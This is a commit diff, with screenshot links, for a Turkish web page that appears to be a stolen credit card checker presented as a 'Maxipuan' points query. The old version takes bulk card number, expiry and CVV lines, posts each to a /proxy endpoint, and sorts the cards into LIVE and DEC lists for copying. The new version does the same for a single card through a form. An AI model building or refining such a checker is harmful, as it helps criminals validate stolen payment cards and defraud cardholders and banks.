

Before and after one commit to adematp/HZQQUAREX, a website: page index.html in a window 1280 px wide. Shown: the part 102-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,59 +1,30 @@
 <!DOCTYPE html>
 <html lang="tr">
 <head>
-  <meta charset="UTF-8">
-  <title>HZQQUAREX - Maxipuan Sorgulama</title>
-  <style>
-    body { font-family: Arial, sans-serif; padding: 20px; background: #111; color: white; }
-    textarea { width: 100%; height: 150px; margin-bottom: 10px; }
-    button { padding: 10px 20px; background: #4CAF50; color: white; border: none; cursor: pointer; }
-    #sonuclar { margin-top: 20px; white-space: pre-wrap; }
-  </style>
+  <meta charset="UTF‑8">
+  <meta name="viewport" content="width=device-width,initial-scale=1">
+  <title>Maxipuan Sorgulama</title>
+  <style> body { font-family: Arial; padding: 20px; } </style>
 </head>
 <body>
-  <h1>HZQQUAREX 💳 Maxipuan Sorgulama</h1>
-  <textarea id="cards" placeholder="Kartları cc|ay|yıl|cvv şeklinde girin."></textarea><br>
-  <button onclick="kontrolEt()">Kontrol Et</button>
-  <button onclick="kopyala('LIVE')">✅ LIVE Kopyala</button>
-  <button onclick="kopyala('DEC')">❌ DEC Kopyala</button>
-
-  <div id="sonuclar"></div>
-
+  <h1>Maxipuan Sorgula</h1>
+  <form id="frm">
+    <input name="cc" placeholder="Kart No" required><br>
+    <input name="month" placeholder="Ay (MM)" required><br>
+    <input name="year" placeholder="Yıl (YYYY)" required><br>
+    <input name="cvv" placeholder="CVV" required><br>
+    <input name="lid" placeholder="LID" required><br>
+    <button type="submit">Sorgula</button>
+  </form>
+  <pre id="result"></pre>
   <script>
-    async function kontrolEt() {
-      const lines = document.getElementById('cards').value.trim().split('\n');
-      const sonuclar = { LIVE: [], DEC: [] };
-      document.getElementById('sonuclar').innerText = 'Kontrol ediliyor...';
-
-      for (const line of lines) {
-        const [cc, month, year, cvv] = line.split('|');
-        try {
-          const res = await fetch(`/proxy?cc=${cc}&month=${month}&year=${year}&cvv=${cvv}&lid=45542`);
-          const text = await res.text();
-          const sonuc = `${line} ➜ ${text} @HzQuarex`;
-          if (text.includes("Maxipuan") || text.includes("puan")) {
-            sonuclar.LIVE.push(sonuc);
-          } else {
-            sonuclar.DEC.push(sonuc);
-          }
-        } catch {
-          sonuclar.DEC.push(`${line} ➜ ❌ HATA @HzQuarex`);
-        }
-      }
-
-      document.getElementById('sonuclar').innerText =
-        "✅ LIVE:\n" + sonuclar.LIVE.join('\n') + "\n\n❌ DEC:\n" + sonuclar.DEC.join('\n');
-    }
-
-    function kopyala(tur) {
-      const text = document.getElementById('sonuclar').innerText;
-      const pattern = new RegExp(`${tur === 'LIVE' ? "✅ LIVE:[\\s\\S]*?(?=\\n\\n|$)" : "❌ DEC:[\\s\\S]*"}`);
-      const match = text.match(pattern);
-      if (match) {
-        navigator.clipboard.writeText(match[0].replace(/^✅ LIVE:\n|^❌ DEC:\n/, ''));
-        alert(`${tur} sonuçlar kopyalandı!`);
-      }
-    }
+    document.getElementById('frm').addEventListener('submit', async e => {
+      e.preventDefault();
+      const params = new URLSearchParams(new FormData(e.target));
+      const res = await fetch('/proxy?' + params.toString());
+      const data = await res.json();
+      document.getElementById('result').textContent = JSON.stringify(data, null, 2);
+    });
   </script>
 </body>
 </html>
```
